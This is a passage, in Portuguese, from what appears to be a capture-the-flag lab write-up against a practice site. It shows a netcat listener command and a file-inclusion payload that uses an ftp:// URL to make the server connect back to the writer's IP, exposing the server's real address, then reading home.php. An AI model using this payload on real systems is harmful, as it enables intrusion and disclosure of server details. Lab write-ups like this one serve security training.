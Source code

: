 Vamos usar o wrapper do ftp para fazer o site fazer uma requisição para o nosso IP como se fosse se conectar ao ftp assim nos indicando qual é o IP real do servidor.

Na minha máquina:

```bash
nc -lvp 4444
```

Payload:

```
https://hacked.uhclabs.com/home.php?page=ftp://IP:PORT/x
```

Recebemos:

![/assets/hacked/Untitled%208.png](/assets/hacked/Untitled%208.png)

Esses servidores ec2 da amazom para pegar o ip é só pegar esses números da url: 34.219.224.183

Vamos acessar e rodar a inclusão do home.php e deve funcionar.


![/assets/hacked/Untitled%209.png](/assets/hacked/Untitled%209.png)

Apenas trocando a URL por home ele automaticamente adicionou o .php e nos mostrou o conteúdo do arquivo home.php.
